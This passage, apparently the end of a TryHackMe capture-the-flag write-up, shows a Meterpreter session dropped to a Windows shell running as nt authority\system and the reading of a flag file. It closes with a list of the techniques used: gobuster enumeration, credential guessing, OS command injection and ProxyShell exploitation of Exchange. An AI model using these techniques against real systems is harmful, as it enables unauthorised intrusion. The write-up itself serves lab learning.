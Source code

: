 Nice! We have a Meterpreter session!

**Let's spawn a shell!**
```shell
meterpreter > shell
Process 15392 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami && ipconfig
whoami && ipconfig
nt authority\system

Windows IP Configuration


Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::25cc:9c59:642e:f48c%8
   IPv4 Address. . . . . . . . . . . : 10.10.113.159
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```

I'm `nt authority\system`!!

## Rooted

**root.txt:**
```shell
c:\windows\system32\inetsrv>type C:\Users\Administrator\Documents\flag.txt
type C:\Users\Administrator\Documents\flag.txt
THM{Redacted}
```

## Conclusion

What we've learned:

1. Enumerating Hidden Directories and Files Via `gobuster`
2. Guessing HTTP Basic Authentication Credential
3. Exploiting OS Command Injection On Windows
4. Vertical Privilege Escalation Via Exploiting Vulnerable Version Of Microsoft Exchange (ProxyShell)